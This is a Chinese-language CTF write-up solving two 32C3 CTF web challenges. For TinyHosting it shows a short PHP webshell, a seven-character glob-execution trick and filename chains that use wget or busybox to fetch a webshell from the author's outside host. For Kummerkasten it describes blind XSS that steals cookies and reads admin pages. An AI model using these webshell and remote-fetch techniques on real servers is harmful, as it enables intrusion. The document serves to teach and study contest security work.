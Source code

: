 # 32C3 CTF 两个Web题目的Writeup

0x00 简介
=====

作为一个销售狗，还能做得动Web题，十分开心。 这次搞了两个题目，一个是TinyHosting，一个是Kummerkasten。

0x01 TingHosting
=====

> A new file hosting service for very small files. could you pwn it?  
> http://136.243.194.53/

可以首先在页面中发现一个隐藏的src参数，在URL里加上?src=1之后可以返回出页面的源代码。

![p1](http://drops.javaweb.org/uploads/images/7c22d09f36e3e6151d1f7b4c19d66e61824ec8e1.jpg)

大概的意思就是说可以往服务器上传任意文件名的文件，不过每个文件的内容只有有7个字符那么长。

于是首先google了一下，最短的php webshell应该是14字符的这个：

```
<?=`$_GET[1]`;

```

(PS：原文的该代码被转意过了,若有错误...见谅.

显然不够长啊。

后来脑洞了很多，想到了可爱的`*`，于是很重要的payload是：

```
z.php

```

内容为：

```
<?=`*`;

```

刚好七个字符，不多不少，能把当前目录下的所有玩意按顺序执行一遍。

于是就要构造一些执行链了，一开始的想法是：

```
busybox ftpget two.dog w.php z.php

```

其中前4个文件内容随意，w.php是上面的关键payload，执行w.php后其内容被我服务器上的webshell覆盖，而获取webshell。

结果悲剧的发现`busybox ftpget`支持的host只能是ip，而不支持域名。

后来想通过wget来构造，利用了302跳转可以跨协议的特点。

```
wget wtf.two.dog z.php

```

前两个文件人意内容，z.php为重要payload，即可拿下webshell。

但仔细一看，这题会在每一个人的目录下创建一个`index.html`，于是执行链被破环没法工作。

于是使用bash来先干掉index.html

构造：

```
bash bb index.html z.php

```

其中bash内容随意，bb的内容为`rm ./*`不超过7个字符。然后再通过上面的方法即可获得一个webshell，然后在根目录发现一个flag。

![p2](http://drops.javaweb.org/uploads/images/604bd18efdd39e53a6438c29e895a24da86a531c.jpg)

之后看了老外的做法真是简单好用，就利用bash、bb和z.php，bb的内容分别为`ls /`,`cat /f*`,简单直接0 0

0x02 Kummerkasten
=====

> Our Admin is a little sad this time of the year. Maybe you can cheer him up at this site http://136.243.194.46/  
> Please note: This challenge does not follow the flag format.
> 
> Hints:  
> To build the flag, concatenate both parts and omit '32C3_'

进去之后只有一个提交留言的地方，四下看了看没发现别的东西，感觉和XSS会有关。

直接丢了一个盲打cookie的payload之后收到了回显：

![p3](http://drops.javaweb.org/uploads/images/da1b2704307eefd41837e5ae4dfed2f2ed8f8ffc.jpg)

访问过去是403，感觉需要用XSS来读一下页面的内容。

本来的思路是XSS里带上jQuery然后用jQuery操作，结果发现页面里面有，太方便了。

直接用ajax可以轻松读取页面并回传。

看到了`/admin/bugs`和`/admin/token`

根据页面中的信息来看，关键是要读两个png图片回来。

最后的payload如下：

![p4](http://drops.javaweb.org/uploads/images/d05b040e3d005c9d16e22404269b76710a9f0f72.jpg)

然后把两个图里的内容，一个mysql的password和一个6位数字拼起来就是FLAG咯。

0x03 Other
==========

更多的writeup可以参考如下链接：

[https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/web](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/web)